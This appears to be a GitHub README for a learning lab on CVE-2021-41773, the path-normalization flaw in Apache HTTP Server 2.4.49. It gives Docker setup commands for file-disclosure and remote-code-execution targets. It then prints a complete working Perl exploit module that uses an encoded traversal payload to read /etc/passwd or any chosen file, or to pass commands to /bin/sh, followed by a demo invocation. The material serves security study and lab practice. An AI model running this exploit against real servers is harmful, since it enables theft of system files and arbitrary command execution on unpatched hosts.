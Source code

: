 <p align="center">
  <h3 align="center">CVE-2021-41773</h3>
  <p align="center">Container lab & exploit to play/learn with CVE-2021-41773</p>
</p>

---

CVE-2021-41773 is a vulnerability on Apache HTTP Server, based on the feature of path normalization, present in the version 2.4.49 of this software. Here, you find a container lab to emulate two vulnerabilities:

- File Disclouse:

```
$ docker build -t apache-default default_conf
$ docker run -dit --name apache-app -p 81:80 apache-default
```

- Remote Code Execution (RCE):

```
$ docker build -t apache-cgi cgi_mod_enable
$ docker run -dit --name apache-lab -p 82:80 apache-cgi
```

---

### Exploit

```perl
package Spellbook::Exploit::CVE_2021_41773 {
    use strict;
    use warnings;
    use Try::Tiny;
    use LWP::UserAgent;

    sub new {
        my ($self, $parameters)= @_;
        my ($help, $target, $file, $command);

        Getopt::Long::GetOptionsFromArray (
            $parameters,
            "h|help"      => \$help,
            "t|target=s"  => \$target,
            "f|file=s"    => \$file,
            "c|command=s" => \$command,
        );

        if ($target) {
            if (!$file) { $file = "/etc/passwd"; }

            my $payload = "/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/";

            if ($command) {
                $payload = $payload . "/bin/sh";
            }

            else {
                $payload = $payload . $file;
            }

            my $useragent = LWP::UserAgent -> new();
            my $request   = $useragent -> get(
                $target . $payload, 
                Content => $command || " "
            );

            if ($request -> code() == 200) {
                return $request -> content();
            }
        }

        if ($help) {
            return "
                \rExploit::CVE_2021_41773
                \r=======================
                \r-h, --help     See this menu
                \r-t, --target   Define a target
                \r-f, --file     Define a file to read
                \r-c, --command  Arbitrary code execution\n\n";
        }

        return 0;
    }
}

1;
```

*Spellbook Exploit: [https://github.com/htrgouvea/spellbook/blob/master/lib/Spellbook/Exploit/CVE_2021_41773.pm](https://github.com/htrgouvea/spellbook/blob/master/lib/Spellbook/Exploit/CVE_2021_41773.pm)*

Demo:

```bash
$ perl spellbook.pl -m Exploit::CVE_2021_41773 - https://target.com/
```

---

### References

1. [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773)
2. [https://httpd.apache.org/security/vulnerabilities_24.html](https://httpd.apache.org/security/vulnerabilities_24.html)